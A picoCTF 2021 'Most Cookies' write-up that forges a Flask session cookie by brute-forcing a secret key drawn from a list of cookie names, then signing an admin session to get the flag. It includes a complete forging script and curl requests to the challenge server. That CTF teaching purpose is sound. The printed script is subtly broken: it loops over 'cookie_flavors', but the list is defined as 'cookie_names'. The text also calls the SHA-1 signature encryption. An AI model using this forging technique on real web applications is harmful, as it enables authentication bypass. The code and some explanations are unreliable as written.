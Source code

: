 ```yaml
---
title: Most Cookies
path: /ctf/picoCTF/2021/most-cookies
date: '2021-04-30'
type: post
authors:
  - katrina-lee
draft: false
hero:
  image: ../images/dummy.jpg
  large: false
  overlay: true
tags:
  - picoctf
  - web-exploitation
---
```


![image](challenge.PNG)

## Think

It's another cookie manipulation challenge!! Woo-hoo! To learn the basics of cookie manipulation with Chrome DevTools, take a look at [my writeup](../Cookies/README.md) for the `Cookies` challenge.

Okay. We know that the server is using [Flask session cookies](https://overiq.com/flask-101/sessions-in-flask/), so let's do some research on how they are encrypted and how secure they are. The cookie is divided into three parts, each separated by a period. Looking at `eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.YFJUTg.P2yjtXbLscemve2adpeyuJA3WBU`, for example, we have:
* `eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9` - **session data** - a dictionary encoded in [Base64](https://www.base64decode.org/)
* `YFJUTg` - **timestamp**, which tells the server when the data was last updated
* `P2yjtXbLscemve2adpeyuJA3WBU` - **[SHA-1 cryptographic hash](https://en.wikipedia.org/wiki/SHA-1)** - calculated using the session data, timestamp, and secret key (`app.secret_key` in the Flask app script)

Aha! There's the vulnerability! The "secure" Flask cookie is only as secure as its secret key. If we know the secret key, we can generate a cookie with our own session data, tricking the server into thinking that it's valid.

Great. Now, let's peek into the [server.py](server.py) file provided to see if we can figure out the secret key. On lines 6 - 7, we have the following code:
```
cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
app.secret_key = random.choice(cookie_names)
```
It seems that the secret key is simply being generated by randomly selecting a cookie name from the `cookie_names` list! Well, that's wonderful, because all we have to do is try each of the cookie names as the secret key until one of them is considered valid!

Let's keep looking through `server.py`. Nothing really stands out until we get to the `flag()` function at line 43. If we request the `/display` endpoint - simply by visiting the provided URL with `/display` at the end (`http://mercury.picoctf.net:6259/display`) - the server checks to see if the `very_auth` key in the `session` dictionary has a value of `admin`. So, the (decoded) session cookie should look like this: `{"very_auth": "admin"}`. If this requirement is met, then we get the flag! Awesome!

If we do a little more research on how Flask session cookies are signed and hashed, we'll come across one major thing: the cookie is [salted](https://en.wikipedia.org/wiki/Salt_(cryptography)) with a known string: "cookie-session". Not very secure.

## Solve

Okay, now let's write a script to get our modified session.

First, we need to import a couple of modules:
* `from itsdangerous import TimestampSigner as tsigner, URLSafeTimedSerializer as serializer, Signer` - to unsign the old session and sign the new one with timestamps
* `from flask.json.tag import TaggedJSONSerializer` - to create a new session
* `import hashlib` - to encrypt with session with a SHA-1 hash
* `import requests` - in my [writeup](../Cookies/README.md) for the `Cookies` challenge, I used the `urllib` module to work with HTTP requests, so I'll show you how to do it with `requests` for this challenge

Let's set our `URL` and `data` constants:
```
URL = "http://mercury.picoctf.net:6259/"
data = {"very_auth": "admin"}
```
Let's also copy & paste the `cookie_names` list from `server.py`
```
cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
```

Okay now, let's get our original session cookie so we can unsign and validate it. There are many ways we can go about this:
1. [DevTools](../Cookies/README.md)
2. [EditThisCookie](https://chrome.google.com/webstore/detail/editthiscookie/fngmhnnpilhplaeedifhccceomclgfbg?hl=en) - visit the website and use this browser extension to see the cookies
3. [Burp Suite](https://portswigger.net/burp)
4. [cURL](https://curl.se/docs/manpage.html) - if you're on Linux, make a curl request to the server and retrieve the request headers with `curl -v http://mercury.picoctf.net:6259/`

For each of the above methods, once you acquire the cookie value, simply copy & paste it into the script: `old_session = eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.YFJUTg.P2yjtXbLscemve2adpeyuJA3WBU`. Keep in mind that the session cookie (and thus, the secret key) seems to change periodically, so don't just copy this one here.

5. Python (recommended) - dynamically retrieve cookie value with a `Session` object
```
s = requests.Session()
s.get(URL)
old_session = s.cookies.get_dict()["session"]
```

Now, let's loop through each cookie in `cookie_name`, create a signature with the cookie name as the secret key, and unsign that signature. If this process raises no errors (meaning the unsigning was successful), then we can break out of the loop and use this cookie name as our secret key:
```
for secret in cookie_flavors:
    try:
        signature = tsigner(secret_key=secret, salt="cookie-session", key_derivation="hmac", digest_method=hashlib.sha1).unsign(old_session)
    except:
        continue
    break
```

Then, with our newly-acquired secret key and the session data, we can create a new session cookie using a similar process:
```
new_session = serializer(
    secret_key=secret,
    salt="cookie-session",
    serializer=TaggedJSONSerializer(),
    signer=tsigner,
    signer_kwargs={
        "key_derivation":"hmac",
        "digest_method":hashlib.sha1
    }
).dumps(data)
```

Lastly, we want to make another HTTP GET request to the website with `new_session` as the new session cookie and print out the response.
```
response = requests.get(URL, cookies=dict(session = new_session))
print(response.text)
```

We can now run this script like so: `python3 most_cookies.py`. The alternative is to make the script print out the new session, and use `curl -v http://mercury.picoctf.net:6259/display -H 'Cookie: session={new_session}` to make the HTTP request.

And...we got the flag! `picoCTF{pwn_4ll_th3_cook1E5_5f016958}`

## Notes

1. Reminder: for every module that you do not yet have installed on your system, make sure to install it with `pip`, a package manager. For example, type `python3 -m pip install itsdangerous` into the terminal.
2. Why are we requesting the `/` endpoint and not the `/display`? Well, according to line 16 of `server.py`, the website redirects to the `/display` route if the value of the `very_auth` key in the `session` dictionary is not `blank`. Recall the `data` variable we defined earlier: `data = {"very_auth": "admin"}`. As you can see, `very_auth` is not `blank`. So we can simply request the `/` root, using the same `URL` variable we defined earlier; there is no need to specifically request the `/display` endpoint, since we will be redirected there anyways.

## Resources

* [How Secure Is The Flask User Session? - miguelgrinberg.com](https://blog.miguelgrinberg.com/post/how-secure-is-the-flask-user-session)
* [Baking Flask cookies with your secrets | by Luke Paris | Paradoxis](https://blog.paradoxis.nl/defeating-flasks-session-management-65706ba9d3ce)

You can find the full script below or [here](most_cookies.py) as a file.

```
from itsdangerous import TimestampSigner as tsigner, URLSafeTimedSerializer as serializer, Signer
from flask.json.tag import TaggedJSONSerializer
import hashlib
import requests

URL = "http://mercury.picoctf.net:6259/"
data = {"very_auth": "admin"}

cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]

s = requests.Session()
s.get(URL)
old_session = s.cookies.get_dict()["session"]

for secret in cookie_flavors:
	try:
		signature = tsigner(secret_key=secret, salt="cookie-session", key_derivation="hmac", digest_method=hashlib.sha1).unsign(old_session)
	except:
		continue
	break

new_session = serializer(
	secret_key=secret,
	salt="cookie-session",
	serializer=TaggedJSONSerializer(),
	signer=tsigner,
	signer_kwargs={
		"key_derivation":"hmac",
		"digest_method":hashlib.sha1
	}
).dumps(data)

response = requests.get(URL, cookies=dict(session = new_session))
print(response.text)
```